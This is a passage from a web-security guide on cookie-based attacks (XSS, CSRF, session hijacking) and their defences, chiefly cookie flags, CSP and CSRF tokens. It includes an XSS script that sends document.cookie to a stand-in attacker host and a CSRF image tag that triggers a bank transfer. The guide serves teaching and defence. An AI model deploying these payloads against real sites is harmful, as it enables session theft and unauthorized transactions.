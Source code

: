 ```html
<script>
  fetch("https://attacker.com/steal?cookie=" + document.cookie);
</script>
```

**✅ How to Prevent:**

```http
Set-Cookie: session=abc123; HttpOnly; Secure
```

- **`HttpOnly`** → Prevents JavaScript from accessing cookies.
- **`Secure`** → Ensures cookies are only sent over HTTPS.
- **Use Content Security Policy (CSP):**
  ```http
  Content-Security-Policy: script-src 'self'
  ```

---

### **🔹 2. Cross-Site Request Forgery (CSRF)**

**📌 What is it?**  
An attacker tricks the user into making an unwanted request (e.g., transferring money).

**🚨 Example Attack:**

```html
<img src="https://bank.com/transfer?amount=10000&to=attacker" />
```

**✅ How to Prevent:**

```http
Set-Cookie: session=abc123; HttpOnly; Secure; SameSite=Lax
```

- **`SameSite=Lax`** → Blocks cookies from being sent in hidden requests.
- **Use CSRF Tokens in requests.**
- **Verify the request origin (`Referer` header).**

---

### **🔹 3. Session Hijacking**

**📌 What is it?**  
An attacker **steals a session cookie** to impersonate a user.

**🚨 Example Attack:**

- **Man-in-the-Middle (MITM) Attack** → Intercepts cookies over HTTP.

**✅ How to Prevent:**

```http
Set-Cookie: session=abc123; HttpOnly; Secure; SameSite=Strict
```

- **Use `Secure`** to enforce HTTPS.
- **Use `SameSite=Strict`** to prevent cross-site cookie use.
- **Rotate session tokens regularly.**

---